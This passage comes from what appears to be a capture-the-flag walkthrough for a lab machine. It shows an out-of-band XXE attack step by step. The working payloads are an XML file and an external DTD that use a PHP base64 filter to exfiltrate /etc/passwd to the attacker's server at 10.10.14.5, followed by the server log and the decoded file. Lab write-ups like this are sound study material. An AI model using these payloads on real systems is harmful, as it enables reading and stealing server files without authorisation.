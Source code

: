 # Initial foothold
With the XXE verified, we can exploit the XXE to read arbitrary files from the system.

## Exploiting OOB-XXE
After researching a bit more, I found an [article](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) that explains out-of-band XXE data exfiltration. It seems like we exploit the external DTD to exfiltrate files from the server. As we may want to read php files, we also use PHP-filters. [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE Injection#xxe-oob-with-dtd-and-php-filter) has a good payload we can use for that.

### Verifying file-read
In order to get file-read we have to modify our current payload, to load the DTD from our server, which then leaks files from the server.
```bash
root@silence:~/extracted/customXml# cat item1.xml
<?xml version="1.0" ?>
<!DOCTYPE xxe [
<!ENTITY % ext SYSTEM "http://10.10.14.5/ext.dtd">
  %ext;
  %file;
]>
<xxe>&exfil;</xxe>
```
The XXE now gets the ext.dtd file, which contains the contains the file entity, which again contains the exfil entity. We now update the docx file and upload it again.

```bash
root@silence:~# cat ext.dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % file "<!ENTITY exfil SYSTEM 'http://10.10.14.5/DATA?%data;'>">
```
The ext.dtd with the file code to exfiltrate /etc/passwd, by using the php-filter to base64 encode the file and then send the base64 data back to our server.

```bash
root@silence:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.173 - - [13/May/2020 19:58:17] "GET /ext.dtd HTTP/1.0" 200 -
10.10.10.173 - - [13/May/2020 19:58:17] code 404, message File not found
10.10.10.173 - - [13/May/2020 19:58:17] "GET /DATA?cm9vdDp[...]L2Jhc2gK HTTP/1.0" 404 -
```
Uploading the new docx document, we get base64 data returned as a response.

```bash
root@silence:~# echo -n "cm9vd...Jhc2gK" | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```